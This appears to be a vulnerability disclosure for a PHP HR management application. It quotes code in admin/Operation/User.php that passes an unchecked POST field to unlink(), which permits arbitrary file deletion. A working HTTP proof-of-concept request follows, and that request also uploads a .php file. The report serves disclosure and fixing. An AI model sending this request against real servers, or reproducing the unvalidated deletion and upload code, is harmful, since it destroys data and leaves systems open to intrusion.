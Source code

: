 ### Vulnerability file address

In line 19 of `admin/Operation/User.php`, `@unlink("../../assets/uploadImage/Candidate/" . $_POST['old_website_image']);`,` $_POST['old_website_image']` parameters have not been restricted, which causes any file to be deleted

```php
<?php
error_reporting(0);
session_start();
if (isset($_SESSION['logged']) && $_SESSION['logged'] == "1" && $_SESSION['role'] == "admin") {

  require_once('../../assets/constants/config.php');

  try {
    $conn = new PDO("mysql:host=$servername;dbname=$dbname", $username, $password);
    $conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

    if (isset($_POST['btn_save'])) {
      $target_dir = "../../assets/uploadImage/Candidate/";
      $website_logo = basename($_FILES["website_image"]["name"]);
      if ($_FILES["website_image"]["tmp_name"] != '') {
        $image = $target_dir . basename($_FILES["website_image"]["name"]);
        if (move_uploaded_file($_FILES["website_image"]["tmp_name"], $image)) {

          @unlink("../../assets/uploadImage/Candidate/" . $_POST['old_website_image']);
        } else {
          echo "Sorry, there was an error uploading your file.";
        }
      } else {
        $website_logo = $_POST['old_website_image'];
      }
```

### POC

```http
POST /CMS/php/_hr_soft/admin/Operation/User.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzedIXtWMMNgQ2ylc
Content-Length: 375

------WebKitFormBoundaryzedIXtWMMNgQ2ylc
Content-Disposition: form-data; name="btn_save"

1
------WebKitFormBoundaryzedIXtWMMNgQ2ylc
Content-Disposition: form-data; name="website_image";filename="8881.php"

123
------WebKitFormBoundaryzedIXtWMMNgQ2ylc
Content-Disposition: form-data; name="old_website_image"

test.txt
------WebKitFormBoundaryzedIXtWMMNgQ2ylc--

```

### Attack results pictures

![image-20250130212617290](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501302126374.png)



![image-20250130215429415](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501302154446.png)

![image-20250130215420216](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501302154262.png)

